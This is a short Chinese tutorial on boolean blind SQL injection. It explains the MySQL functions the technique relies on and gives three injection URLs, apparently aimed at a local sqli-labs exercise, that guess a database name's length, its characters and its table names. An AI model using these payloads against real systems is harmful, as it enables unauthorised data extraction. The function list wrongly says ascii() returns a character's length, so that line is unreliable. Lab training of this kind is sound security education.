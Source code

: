 # SQL注入—布尔盲注

# SQL注入—布尔盲注

![](https://pic.imgdb.cn/item/64c4e4561ddac507cc81da4d.jpg)

## 相关函数

- if(a, b, c) : 如果 a 为真，执行 b；如果 a 为假，执行 c
- mid(a, b, c) : 从字符串 a 的第 b 位起(从 1 开始算)，截取 c 个字符
- substr(a, b, c) : 从字符串 a 的第 b 位起(从 1 开始算)，截取 c 个字符
- left(a, c) : 从字符串 a 的最左边起，截取 c 个字符
- length('s') : 获取字符串 s 的长度
- ascii('c') : 获取字符 c 的长度


​	

## 判断数据库名长度

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and length(database())=8--+ #页面正常
```

​	

## 猜解数据库名

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ #页面正常
```

​	

## 猜解表名

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ #页面正确
```


